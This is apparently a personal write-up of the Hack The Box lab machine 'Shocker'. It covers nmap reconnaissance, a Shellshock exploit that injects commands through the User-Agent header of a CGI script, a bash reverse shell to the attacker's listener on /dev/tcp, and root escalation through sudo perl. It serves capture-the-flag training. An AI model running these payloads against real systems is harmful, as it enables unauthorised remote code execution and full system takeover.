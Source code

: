 # HTB - Shocker    10.10.10.56


- Linux 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
- Ubuntu 16.04.3 LTS

- Apache/2.4.18 (Ubuntu)
- OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

- Use the box name to identify Shell Shock exploit
- dird : find /cgi-bin/
- dirb : find /cgi-bin/user.sh
- Use shell shock
- use sudo -l


## Walkthrough

- https://medium.com/@andr3w_hilton/htb-shocker-walkthrough-37f1dc6203f3


## Shellshock bash bug

Bash <= 4.3. Any version published before September 2014 got the bug.
Version actuelle : GNU bash, version 4.4.23(1)-
The cause of the vulnerability lies in a loophole in the Bash algorithm which parses the values of environment variables

HTTP parameters are passed as env values... Use them..

Nice story : https://medium.com/@nikhilh20/exploit-bash-shellshock-part-1-ad1636acaf9e

Testing : env x='() { :;}; echo Oh No!' bash_shellshock -c "echo Testing!"


## NMap

```
# Nmap 7.70 scan initiated Sun Sep 15 13:12:52 2019 as: nmap -sC -sV -A -o enum/nmap_10.10.10.56_recon.txt 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.035s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Aggressive OS guesses: Linux 3.2 - 4.9 (94%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (92%), Linux 3.18 (92%), Linux 4.2 (92%), Linux 3.12 (91%), Linux 3.13 (91%), Linux 3.8 - 3.11 (91%), Linux 4.4 (91%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   36.35 ms 10.10.14.1
2   36.41 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 15 13:13:08 2019 -- 1 IP address (1 host up) scanned in 17.39 seconds
```


## 80

![](images/http:__10.10.10.56:80.png)
```
HTTP/1.1 200 OK
Date: Sun, 15 Sep 2019 11:07:05 GMT
Server: Apache/2.4.18 (Ubuntu)
```

The name is Shocker, we search for a shell shock exploit.
Let search cgi-bin directory for a .sh file

### Dirb

Found http://10.10.10.56:80/cgi-bin/ 

### Shell shock


Use Request header to inject commands
```
# curl -H "User-Agent: () { :; }; /bin/ping 10.10.14.32 -c 2" http://10.10.10.56:80/cgi-bin/user.sh
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>

```
Take 2s to get response.
We have no stdout, but command is executed


```
# curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.32/4444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh
```

Get the reverse shell
```
# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.56] 59738
bash: no job control in this shell

shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ 

shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXxxxx 

```
## System
```
$ uname -a
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

$ cat /etc/issue
Ubuntu 16.04.3 LTS


```


## Escalation

```
$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

$ sudo perl -e 'system("/bin/bash")'
sudo perl -e 'system("/bin/bash")'
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXxx

```


